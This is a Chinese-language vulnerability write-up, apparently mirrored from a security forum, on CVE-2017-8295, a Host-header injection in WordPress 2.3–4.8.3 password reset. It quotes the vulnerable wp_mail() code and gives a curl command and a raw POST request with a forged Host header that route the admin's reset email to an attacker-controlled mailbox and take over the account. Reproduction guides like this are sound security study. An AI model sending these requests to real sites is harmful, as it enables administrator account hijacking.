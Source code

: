 # （CVE-2017-8295）WordPress <=4.8.3 任意密码重置/HOST头注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3259](https://www.zhihuifly.com/t/topic/3259)

# （CVE-2017-8295）WordPress 2.3-4.8.3 任意密码重置/HOST头注入漏洞

## 一、漏洞简介

在 WordPress 2.3-4.8.3 版本中找回密码功能未正确设置发送邮件的信息，在发送找回密码邮件的过程中直接使用 Host 地址作为邮件请求头的一部分，在一些情况下攻击者可利用该功能窃取找回密码邮件内容。

## 二、漏洞影响

WordPress 2.3-4.8.3

## 三、复现过程

### 漏洞分析

在 WordPress 中， wp_mail() 函数用来发送邮件，在发送邮件的过程中如果没有设置 发件地址（From） ，则会自动使用 'wordpress@' + $_SERVER['SERVER_NAME'] 作为邮件的 发件地址。主流的 Web 服务器中的 SERVER_NAME 变量来自于客户端请求中 HTTP_HOST 头，这就意味着该发件地址是用户可控的。

wp_mail() 函数的声明在文件 WordPress/wp-includes/pluggable.php 中：

```
function wp_mail( $to, $subject, $message, $headers = '', $attachments = array() ) {
...//ignore
    if ( !isset( $from_email ) ) {
        // Get the site domain and get rid of www.
        $sitename = strtolower( $_SERVER['SERVER_NAME'] );
        if ( substr( $sitename, 0, 4 ) == 'www.' ) {
            $sitename = substr( $sitename, 4 );
        }
        $from_email = 'wordpress@' . $sitename;
    }
    /**
     * Filters the email address to send from.
     *
     * @since 2.2.0
     *
     * @param string $from_email Email address to send from.
     */
    $from_email = apply_filters( 'wp_mail_from', $from_email );
    /**
     * Filters the name to associate with the "from" email address.
     *
     * @since 2.3.0
     *
     * @param string $from_name Name associated with the "from" email address.
     */
    $from_name = apply_filters( 'wp_mail_from_name', $from_name );
    $phpmailer->setFrom( $from_email, $from_name );
...//ignore
} 
```

在某些情况下邮件服务器会直接将邮件的 发件地址 作为 退件地址（Return-Path），当邮件发送失败时邮件会被自动转发到 退件地址。因为 发件地址 可被篡改，因此找回密码邮件的内容可能会被发送到恶意的邮件服务器中。

### 漏洞复现

#### 安装 WordPress 程序

此处的管理员邮箱设置为不存在的邮箱地址 demo@0-sec.org，用来模拟通过DNS攻击/DOS攻击使管理员的找回密码邮件发送失败

![image](img/be7395c5c6efd5e9e8a42b379d309cb4.png)

#### 创建邮箱账户

演示中我们使用的是 wordpress@0-sec.org

#### 通过在线终端，发起找回密码请求，并篡改 HTTP_HOST 请求头

我们这里使用在线终端模拟攻击内网的 WordPress 网站。

在线终端中执行：

```
curl -v 'http://0-sec.org/wp-login.php?action=lostpassword' -H 'Host: vulnspy.com' --data 'user_login=admin&redirect_to=&wp-submit=Get+New+Password' 
```

![image](img/1766050ba71b03dc39f30593f79e0038.png)

post数据包：

```
POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
Host: injected-attackers-mxserver.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 56 `user_login=admin&redirect_to=&wp-submit=Get+New+Password` 
```

如果此时邮件发送失败，邮件会被自动退回到 wordpress@0-sec.org。即原本要发送管理员邮箱 demo@0-sec.org 的邮件会被发送到 wordpress@0-sc.org

#### 使用 wordpress@0-sec.org 接收找回密码邮件

如果利用成功 wordpress@v0-sec.org 会接收到密码重置邮件。

![image](img/e423e1e515d6db32ddb98681c3ce07eb.png)

如果邮件内容没有显示找回密码链接，可以通过邮件源文件发现找回密码链接

![image](img/785dac52d8cdb7c1b0d6cc269251735e.png)

#### 使用找回密码链接修改密码

![image](img/2ea73d1d01c84bfda1b2f42907bf86d2.png)